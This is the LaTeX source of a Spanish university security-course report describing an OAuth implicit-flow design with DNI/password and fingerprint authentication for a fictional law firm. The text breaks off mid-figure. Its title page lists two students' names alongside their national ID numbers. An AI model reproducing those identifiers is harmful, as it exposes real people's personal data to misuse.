%#######################################################################################
%############################		CABECERA		####################################
%#######################################################################################
\documentclass[a4,12pt,onecolum]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel} 		% para que divida bien las silabas en final de linea
\usepackage[margin=3cm]{geometry}	% para poner los margenes bonitos
\usepackage{fancyhdr}
\usepackage{graphicx} 				% meter figuras gráficas
\graphicspath{{fotos/}}
\usepackage{import}
\usepackage{color} 					% para introducir colores en el documento
\usepackage{verbatim}
\usepackage{subfigure}
\usepackage{listings}
\usepackage{cite}
%\bibliographystyle{alpha}
\usepackage[official]{eurosym}
\usepackage{graphicx}
\usepackage{fancyhdr}
\usepackage{subfigure}
\usepackage{listings, courier}
\usepackage{amssymb, amsmath, amsbsy}
\usepackage{float}
\usepackage[colorinlistoftodos]{todonotes}
\usepackage{cite}
\PassOptionsToPackage{hyphens}{url}\usepackage{hyperref}
\usepackage{url, hyperref}
\usepackage[nottoc]{tocbibind}
\usepackage{titlesec}
\usepackage{fancyvrb}
\setlength{\headheight}{20pt}


% FIGURAS [htbp] significa que el orden para que LaTeX trate de incrustar la imagen es: primero que lo intente aquí (h), luego en la parte de arriba (t), a continuación, en la parte de abajo (b), y por último, en la parte de arriba de la siguiente página (p). Puedes reordenar estas letras para seleccionar el orden que prefieras. Eso sí, muchas veces LaTeX hace lo que quiere. Pero si pones [htbp], indicas a LaTeX que ponga la imagen exactamente ahí. Para usar [htbp] tienes que cargar el paquete {float}.


%\usepackage{times} 						% tipo de letra periodico
%\renewcommand{\familydefault}{\sfdefault}	% tipo de letra Arial

% este bloque es para definir el estilo del texto C++
\lstset{language=C++,
  inputencoding=latin1,	% permite las tildes en el código
  backgroundcolor=\color[gray]{0.9},% color del fondo
  frame=single,		% dibuja un borde
  columns=flexible,	% el tamaño de letra se ajusta al ancho
  extendedchars=false,
  aboveskip=1eM,
  basicstyle=\ttfamily,
  keywordstyle=\color{blue}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  commentstyle=\color{brown}\ttfamily,
  morecomment=[l][\color{magenta}]{\#}
}

\hypersetup{
    bookmarks=true,         % show bookmarks bar?
    unicode=false,          % non-Latin characters IN Acrobat’s bookmarks
    pdftoolbar=true,        % show Acrobat’s toolbar?
    pdfmenubar=true,        % show Acrobat’s menu?
    pdffitwindow=false,     % window fit to page when opened
    pdfstartview={FitH},    % fits the width of the page to the window
    pdftitle={My title},    % title
    pdfauthor={Author},     % author
    pdfsubject={Subject},   % subject of the document
    pdfcreator={Creator},   % creator of the document
    pdfproducer={Producer}, % producer of the document
    pdfkeywords={keyword1} {key2} {key3}, % list of keywords
    pdfnewwindow=true,      % links IN new PDF window
    colorlinks=true,        % false: boxed links; true: colored links
    linkcolor=black,          % color of internal links (change box color with linkbordercolor)
    citecolor=blue,        % color of links to bibliography
    filecolor=magenta,      % color of file links
    urlcolor=blue           % color of external links
}

%\usepackage[hidelinks]{hyperref}% para anadir enlace dentro del documento, tiene que ser la ultima declaracion porque sino puede fallar

\title{Seguridad}
\date{\today}

%---------------------- ENCABEZADO Y PIE DE PÁGINA

\pagestyle{fancy}

\lhead{Seguridad}
\rhead{\leftmark}
\cfoot{\thepage}

\renewcommand{\headrulewidth}{0.4pt} % grosor de la línea de la cabecera
\renewcommand{\footrulewidth}{0.4pt} % grosor de la línea del pie


\setcounter{secnumdepth}{4}
\titleformat{\paragraph}
{\normalfont\normalsize\bfseries}{\theparagraph}{1em}{}
\titlespacing*{\paragraph}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}
%#######################################################################################
%##############################			CUERPO			################################
%#######################################################################################
\begin{document}

%################## PORTADA

\begin{titlepage}

\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Defines a new command for the horizontal lines, change thickness here

\center % Center everything on the page

\textsc{\LARGE Universidad de Murcia}\\[0.8cm]
\textsc{\Large Grado en Ingeniería Informática}\\[0.5cm]
\textsc{\large 4º curso}\\[0.4cm]
\textsc{\large Grupo 6}\\[0.4cm]
\textsc{\large Curso 2016/2017 - Junio}\\[0.4cm]

\HRule \\[0.6cm]
{ \huge \bfseries Seguridad}\\[0.3cm]
\HRule \\[0.5cm]
{ \Large \bfseries Práctica final}\\[0.3cm]
\HRule \\[1.0cm]

%################## AUTORES

\begin{minipage}{0.4\textwidth}
\begin{flushleft} \large
Estudiantes:\\
Cristian Roche Borja \\
\small{DNI: 76581531H}	\\
\large{Alicia Ruiz Tovar} \\
\small{DNI: 48693813F}
\end{flushleft}
\end{minipage}
~
\begin{minipage}{0.4\textwidth}
\begin{flushright} \large
Docentes: \\
Alberto Huertas Celdrán
Gabriel López Millán
Gregorio Martínez Pérez
\end{flushright}
\end{minipage}\\[1cm]

%################## LOGO

\centering

\includegraphics[width=0.5\textwidth]{./portada/logoum.png}\\[0.8cm] % Include a department/university logo - this will require the graphicx package

\end{titlepage}

%################## PAGINA EN BLANCO

\thispagestyle{empty}
\textcolor[rgb]{1.00,1.00,1.00}{palabra} % Pinta "palabra" de blanco
\newpage

\setcounter{page}{3}

%##################	TABLA DE CONTENIDOS

\newpage
\tableofcontents 		% indice
\rhead[\thepage]{Índice}
\newpage

%##################	CUERPO DEL DOCUMENTO

%################## INTRODUCCIÓN

\clearpage
\section{Introducción}
\rhead[\thepage]{\thesection. Introducción}

La práctica final que a continuación se muestra consiste en el diseño, el prototipado y la puesta en marcha de un conjunto de servicios que se realizan sobre el escenario de red propuesto en el proyecto Lego y sobre el cual se ha ido trabajando a lo largo de la intensificación. \\

Concretamente, los servicios que se han desarrollado para esta asignatura son los siguientes:

\begin{itemize}
  \item Diseño y prototipado de una solución de control de acceso con autenticación multifactor (MFA) y autorización delegada: Oauth.

  \item Despliegue de un escenario de red para la detección de intrusiones y gestión de vulnerabilidades: NMAP, Metasploit y SNORT.
  \begin{itemize}
    \item Despliegue de un IDS/Snort dentro de la red.
    \item Realización de un análisis de vulnerabilidades basado en Metasploit.
  \end{itemize}

  \item Programación de Buffer Overflows.

\end{itemize}

% #######################   OAUTH   ##################################

\clearpage
\section{Oauth}
\rhead[\thepage]{\thesection. Oauth}

Open Authorization(Oauth) es un mecanismo un mecanismo de autorización, está estandarizado y es abierto, es decir, disponible públicamente para su uso. El protocolo que implementa Oauth se basa en la \emph{autorización delegada}, se hace uso de una tercera entidad para autenticar al usuario, sin embargo, esta es la utilidad más básica, una vez autenticado a un usuario, se pueden solicitar su información asociada. \\

Desde el punto de vista del usuario final, este sistema supone una gran ventaja, no necesita de múltiples credenciales en cada uno de los sitios web que frecuenta, basta con disponer de una cuenta de usuario válida en un servidor de autenticación, es el caso de Google, Facebook, etc... grandes empresas que ofrecen este servicio a sus usuarios. \\

Desde el punto de vista de una mediana empresa, resulta muy sencillo beneficiarse de este mecanismo llegando a acuerdos con empresas de autenticación, como las ya mencionadas. La inclusión en los servicios web es muy sencilla y basta con poner un botón opcional en la página que solicita las credenciales de acceso. El usuario final demostrará su identidad e incluso puede permitir el acceso diferentes apartados(scopes) de su información personal, que está siendo gestionada actualmente por Google, Facebook...

% #######################   ADAPTACIÓN A LA TOPOLOGÍA   ##################################

\subsection{Adaptación a la topología}
En nuestro grupo de prácticas, damos servicio a un bufete de abogados, cubriendo las necesidades de los trabajadores y de los clientes del mismo. Consideremos que Oauth puede facilitar en gran medida las gestiones online de los clientes, permitiendo la compartición de sus datos con diferentes empresas colaboradoras. No supone una violación de la privacidad del cliente, ya que será este en cada momento quien decida que empresas pueden acceder a su información.	\\

Para que Oauth tenga una apliación real en nuestra topología, es necesario incluír en la escena a una segunda empresa colaboradora, como trabajamos con abogados, es interesante la inclusión de una notaría \texttt{"Notaría Arrigaga Asociados"}. Como trabajamos con un bufete con un buen número de abogados, disponemos de una infraestructura informática  importante, la información de nuestros clientes ya está almacenada en nuestros servidores, la dirección ha decidido que el bufete implantará el servicio de autenticación con Oauth. Cualquier empresa colaboradora que esté interesada en hacer uso de nuestro servicio tendrá que firmar un acuerdo, en el que se incluye las garantías de confidencialidad y los aspectos económicos.	\\

En el momento de la implantación, solo se ha llegado a un acuerdo con la notaría anteriormente mencionada, asumiendo cada actor los siguientes roles:
\begin{itemize}
\item \texttt{Bufete de abogados:} Será el encargado de la identificación(\emph{IDP Server}), autorización(\emph{Authorization Server}) y de servir los recursos(\emph{Resource Server}).
\item \texttt{Notaría:} Actuará como cliente (\emph{Client}).
\item \texttt{Usurio final:} Será quién hace uso del servicio mediante su navegador web y quien facilite el acceso a sus recursos(\emph{ResourceOwner}).
\end{itemize}

En esta práctica la implementación de Oauth no solo se limitará a la autenticación de los clientes del bufete, sino que también se utilizará para facilitar parte de la información personal de los mismos, facilitando las gestiones.

% #######################   IMPLEMENTACIÓN   ##################################

\subsection{Implementación}
Utilizaremos una implementación basada en el esquema \emph{implicit} como se muestra en la figura \ref{fig:oauth1}. Esta modalidad tiene como característica principal, que es el navegador del propietario de los recursos (Resource Owner) el medio utilizado para interactuar con las diferentes entidades. Modificaremos ligeramente el esquema separando la identificación y la autenticación en dos servidores independientes.	\\

\begin{figure}[htbp]
\centering

\includegraphics[width=0.8\textwidth]{./images/oauth/implicit.jpg}
\caption{Esquema implicit.}
\label{fig:oauth1}
\end{figure}

Una vez que el \emph{User agent} haya realizado todas las peticiones previas, el \emph{Client}, en en este caso corresponde con la \emph{Notaría}, podrá realizar consultas de la información del \emph{Resource owner} de forma directa en el \emph{Client resource}, este permiso tendrá una duración de 30 segundos, expirado ese periodo, el permiso caducará. Aunque la duración de dicho permiso pueda parecer corta, el fin de esta implementación es que la Notaría pueda consultar casi de forma instantánea los datos del usuario, para rellenar  un formulario con su información personal, obtener algún documento, etc... \\

Para la realización de esta práctica, hemos implementado los servicios con Java Rest, que presenta las siguientes ventajas:
\begin{enumerate}
	\item Alto rendimiento, soportando un gran número de peticiones simultáneas.
	\item Claridad en el código. Se ve de forma muy clara el tipo de función implementada y el resultado que 		genera.
	\item Permite la inclusión y lectura de cabeceras HTTP de forma muy clara y en una sola línea de código.
	\item Uso dinámico de las URLs, pudiendo usarlas para recibir parámetros que forman parte de la propia URL. 	(http://www.notaria.es/{userID}/{userPhone}/)
	\item Dispone de un amplio soporte y documentación para la resolución de problemas.
	\item La librería de Oauth esta implementada también en Java Rest, por lo que se hace más sencilla la 			adaptación. \\
\end{enumerate}

A la hora de resolver las dependencias con otras librerías, hemos optado por el uso de \emph{Maven}, que tiene las siguientes ventajas:
\begin{enumerate}
	\item Soportado de forma nativa en Eclipse.
	\item Fácil conversión de un proyecto tradicional a uno maven.
	\item Amplio soporte y documentación de uso.
	\item No es necesario descargar las librerías, solo se incluyen las referencias y se descargan 					automáticamente.
	\item Basándonos en el punto anterior, el tamaño del proyecto final es muy pequeño.
	\item Maven dispone de la librería de Oauth en su repositorio.
\end{enumerate}

% #######################   TOPOLOGÍA   ##################################

\subsubsection{Topología}
En la figura \ref{fig:oauth8} se muestra un esquema de la implantación de Oauth en nuestro escenario de prácticas. La \emph{Organización 1} corresponde a la Notaría colaboradora (Client) y la \emph{Organización 2} con el Bufete de abogados que ofrecen el servicio. También, se muestra la tercera entidad, que corresponde al usuario final (Resource Owner) que hace uso del navegador web (User Agent) para acceder a los servicios. En el siguiente apartado de este documento se indica la labor de cada URL.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/topo_escenario.png}
\caption{Topología de prácticas.}
\label{fig:oauth8}
\end{figure}




% #######################   SERVIDORES/URLs   ##################################

\subsubsection{Servidores/URLs}
A continuación, se muestra una lista con los diferentes servidores que hemos implementado, así como las URLs de las que dispone cada uno. Así se podrá entender de forma más clara el funcionamiento de nuestro esquema.

\begin{itemize}
\item \texttt{ServidorWeb Notaría(Client)}
	\begin{itemize}
		\item \emph{/Seguridad\_NotariaWeb/rest/Index	GET} \\
		Página de inicio de la Notaría, en la que se puede visualizar el índice de contenidos.

		\item \emph{/Seguridad\_NotariaWeb/rest/Formulario	GET} \\
		Muestra un mensaje indicando que el formulario al que se ha accedido necesita consultar datos 					personales del usuario, después de 5 segundos realiza una redirección. Si la Notaría no se encontraba 			registrada, realiza el registro antes de redirigir.

		\item \emph{/Seguridad\_NotariaWeb/rest/Resultado	GET} \\
		Se llama cuando el usuario ya ha obtenido el \emph{AccessToken} del servidor de autorización. Cuando 			recibe el \emph{AccessToken} realiza las consultas al servidor de recursos. Como resultado, se muestra 			un formulario al usuario autocompletado con sus datos personales.
	\end{itemize}

\item \texttt{Servidor Identificación(IDP)}
	\begin{itemize}
		\item \emph{/Seguridad\_IDP/rest/OauthRegistro	POST} \\
		Recibe las peticiones de registro, registra al \emph{Client} y envía la respuesta.

		\item \emph{/Seguridad\_IDP/rest/Identifier	GET} \\
		Muestra una página web en la que el usuario debe introducir la imagen de su huella digital y su DNI/			Contraseña. Al pulsar enviar, se realiza un POST a la misma URL.

		\item \emph{/Seguridad\_IDP/rest/Identifier	POST} \\
		Recibe la información de identificación del usuario, valida por niveles cada uno de los datos, la 				detección de un dato no válido implica no comprobar los siguientes. En primer lugar el DNI/Contraseña, 			ya que es el menos costoso desde el punto de vista computacional.
		Si se superan todos los niveles de identificación, se genera una \emph{Cookie} para el cliente.

		\item \emph{/Seguridad\_IDP/rest/Identifier/redirect	POST} \\
		Transforma la petición POST del cliente, que en este momento contiene la imagen de la huella y el 				usuario y contraseña, en una petición GET dirigida al servidor de autorización.

		\item \emph{/Seguridad\_IDP/rest/CheckAuthCookie	POST} \\
		Esta página es invocada por el servidor de autorización para validar la \emph{Cookie} que el 					\emph{Client} le ha presentado. Recibe la \emph{Cookie} en formato Json y devuelve el \emph{ID} del 			usuario asociado a esa \emph{Cookie}, en el caso de que no sea válida, mostrará un error 401 					\emph{Unauthorized}.

		\item \emph{/Seguridad\_IDP/rest/Error	GET} \\
		Página de error mostrada para indicar al usuario el fallo de alguno de los pasos.
	\end{itemize}

\item \texttt{Servidor Autorización(Authorize)}
	\begin{itemize}
		\item \emph{/Seguridad\_Authorize/rest/Authorize	GET} \\
		Recibe la \emph{Cookie} y los datos de identificación del \emph{Client}. En primer lugar, se verifica 			que los datos del \emph{Client} sean válidos, posteriormente se valida la \emph{Cookie} presentada 				(Esta validación se realiza lanzando una consulta al IDP {/Seguridad\_IDP/rest/CheckAuthCookie}). 				Si toda la información es correcta, se genera un \emph{AccessToken} y se redirecciona.

		\item \emph{/Seguridad\_Authorize/rest/CheckAccessToken	POST} \\
		Esta página es invocada por el servidor de recursos para validar el \emph{AccessToken} que el 					\emph{Client} le ha presentado. Recibe el \emph{AccessToken} en formato Json y devuelve el \emph{ID} 			del	usuario asociado a ese \emph{AccessToken}, en el caso de que no sea válido, mostrará un error 401 			\emph{Unauthorized}.
	\end{itemize}

\item \texttt{Servidor Recursos(Resource)}
	\begin{itemize}
		\item \emph{/Seguridad\_ResourceServer/rest/DNI	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve el número de DNI en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/Name	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve el nombre en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/Surname	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve el apellido de DNI en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/Phone	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve el número de teléfono en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/Address	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve la dirección en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/Email	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve el email en formato Json.

		\item \emph{/Seguridad\_ResourceServer/rest/BirthDate	GET} \\
		Consulta al servidor de autorización la validez del \emph{AccessToken} presentado, en esta consulta 			recibe el ID del usuario asociado. Devuelve la fecha de nacimiento en formato Json.
	\end{itemize}
\end{itemize}


% #######################   ELECCIÓN DE CREDENCIALES  ##################################

\subsubsection{Elección de Credenciales}

Para identificar de forma segura a los clientes del Bufete y teniendo en cuenta que sus accesos serán remotos (no podemos realizar una comprobación físicamente), hemos establecido dos factores de autenticación. El usuario debe demostrar que posee ''algo'' y que sabe ''algo''. Siguiendo con la idea de que el uso de Oauth sea algo cómodo, que facilite las gestiones del usuario y que aún así mantenga un alto grado de seguridad, hemos decido implantar los siguientes factores:

\begin{enumerate}
	\item \texttt{DNI/Contraseña:} El número del DNI es algo que el usuario \emph{sabe}, si no es el caso, lo 		puede consultar fácilmente. La contraseña será facilitada al usuario por los miembros del Bufete, previa 		solicitud, esta contraseña será generada y almacenada en el servidor de identificación, que será el 			encargado de posteriormente comprobar su validez. \\
	Hacemos uso del número de DNI por dos motivos:
	\begin{enumerate}
		\item Es un número que ya posee el usuario.
		\item Al ser un código único, lo utilizamos en la propia base de datos como ID del usuario, aumentando 			la eficiencia de las consultas (con una consulta de ID, tenemos el ID y el DNI) y reduciendo el espacio 		empleado para almacenar la información de un usuario, no será necesario tener un campo exclusivo para 			el ID. \\
	\end{enumerate}

	Como ya se ha mencionado, la contraseña es generada por el servidor del Bufete, se ha implementado la 			generación de forma que cumplirá los siguientes requisitos:
	\begin{enumerate}
		\item Longitud mínima ocho caracteres.
		\item Incluye, al menos, una letra mayúscula.
		\item Incluye, al menos, un símbolo.
		\item Longitud máxima veinte caracteres. Necesario para controlar la entrada máxima en la web de 				identificación.
		\item Solo hará uso de caracteres ASCII, para comodidad de clientes extranjeros.
		\item No será una contraseña de la lista de contraseñas más habituales.
		\item No contendrá repeticiones.
		\item Tendrá una fecha de caducidad de un año, a contar desde la generación de la misma.
		\item No podrá ser igual a una contraseña antigua del usuario. El servidor no borrará las contraseñas 			caducadas.
	\end{enumerate}

	\item \texttt{Huella Digital:} Es algo que el usuario \emph{posee}, es de tipo biométrico. Cuando un 			usuario se da de alta en el Bufete de abogados, se le tomarán huellas dactilares de dos dedos, cinco 			patrones de cada una, estos patrones serán almacenados en la base de datos del servidor de identificación. 		Es un proceso muy sencillo y rápido, además, cualquier usuario puede utilizar un lector de huellas en sus 		ordenadores personales, tienen un precio muy bajo(20\euro{} aproximadamente las versiones más baratas) y 		muchos equipos, como teléfonos móviles y ordenadores portátiles, ya lo incluyen.
	Para que la huella sea considerada válida, deberá cumplir los siguientes requisitos:
	\begin{enumerate}
		\item Tasa de acierto superior a un 85\%. En todos nuestros tests, la tasa de acierto resultó superior 			al 97\%.
		\item Threshold superior al 65\%.
	\end{enumerate}

\end{enumerate}

% #######################   SECUENCIA DE FUNCIONAMIENTO  INTERNO  ##################################

\subsubsection{Secuencia de Funcionamiento Interno}
La imagen \ref{fig:oauth2} muestra un diagrama de secuencia, en este diagrama se muestra gráficamente todos los mensajes enviados y recibidos desde el \emph{User Agent} y el \emph{Client}. Por simplificar el diagrama, solo se muestra la obtención del DNI, en la resolución práctica se realizan consultas de cada uno de los datos del usuario: nombre, fecha de nacimiento, DNI, apellido, dirección, email, fecha de nacimiento y número de teléfono.

\begin{figure}[htbp]
\centering
